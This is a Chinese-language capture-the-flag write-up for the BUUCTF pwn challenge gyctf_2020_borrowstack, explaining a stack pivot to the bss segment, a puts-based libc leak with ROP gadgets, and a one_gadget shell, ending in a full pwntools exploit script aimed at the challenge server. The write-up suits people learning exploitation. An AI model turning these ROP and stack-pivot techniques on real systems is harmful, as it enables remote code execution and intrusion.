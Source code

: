 ### Puts 泄露 Libc 结合 64 位栈迁移

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67df8ad888c538a9b5c4b96a.png)

反编译只够溢出 0x10，第二个 read 放到了 bss 段

![](https://pic1.imgdb.cn/item/67df8b0588c538a9b5c4b9ce.png)

首先利用 pit 表中的 puts 函数泄露 libc，得先找 `pop rdi` 指令

![](https://pic1.imgdb.cn/item/67df8bcc88c538a9b5c4bc0b.png)

其次栈迁移需要 leave 指令

![](https://pic1.imgdb.cn/item/67df937888c538a9b5c4cc5d.png)

先构造 payload 迁移栈到 bss 段

```python
r.recvuntil('u want')

payload = b'a' * 0x60 + p64(bank_addr) + p64(leave)

r.send(payload)
```

第一次溢出

![](https://pic1.imgdb.cn/item/67df9ce788c538a9b5c4e3cb.png)

**需要注意不能将栈迁移到变量 bank 的开头，因为后面还需要调用 puts 等函数，往上可能会覆盖某些重要数据，因此迁移的地址应该尽量靠后**

bank 的地址距离 got 表很近，只隔着 0x30 的距离，而调用 puts 很吃栈空间，因此我们在做栈迁移的时候要把地址相对的抬高些

![](https://pic1.imgdb.cn/item/67dfa15888c538a9b5c4ef36.png)

再找找 ret 指令，相当于

```c
pop eip	# 给 eip 赋值
```

![](https://pic1.imgdb.cn/item/67df943488c538a9b5c4cdec.png)

之后再在 bss 段中构造泄露 libc 的 payload

**（只要 p64(ret) * num 中 28 >= num >= 20 即可）**

```
r.recvuntil('now!')

payload = p64(ret) * 21 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)

r.send(payload)
r.recvline()

puts_addr = u64(r.recv(6).ljust(8,b'\x00'))
print(hex(puts_addr))
```

之后就是 libc 基址了

```
libc = LibcSearcher('puts', pus_addr)
libc_base = pus_addr - libc.dump('puts')
```

但是这题不能 ROP，只能 one_gadget（可能是空间不够）

![](https://pic1.imgdb.cn/item/67dfa58288c538a9b5c4f9d4.png)

完整 payload

```python
from pwn import *
from LibcSearcher import *

r = remote('node5.buuoj.cn',26424)
#r = process('./gyctf_2020_borrowstack')

elf = ELF('./gyctf_2020_borrowstack')
bank_addr = 0x0601080
leave = 0x400699
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x400703
main = 0x0400626
ret = 0x4004c9

r.recvuntil('u want')

payload = b'a' * 0x60 + p64(bank_addr) + p64(leave)

r.send(payload)
r.recvuntil('now!')

payload = p64(ret) * 28 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)

r.send(payload)
r.recvline()

puts_addr = u64(r.recv(6).ljust(8,b'\x00'))
print(hex(puts_addr))

libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')

one_gadget = libc_base + 0x4526a

payload = b'a' * (0x60 + 8) + p64(one_gadget)

r.send(payload)
r.interactive()
```

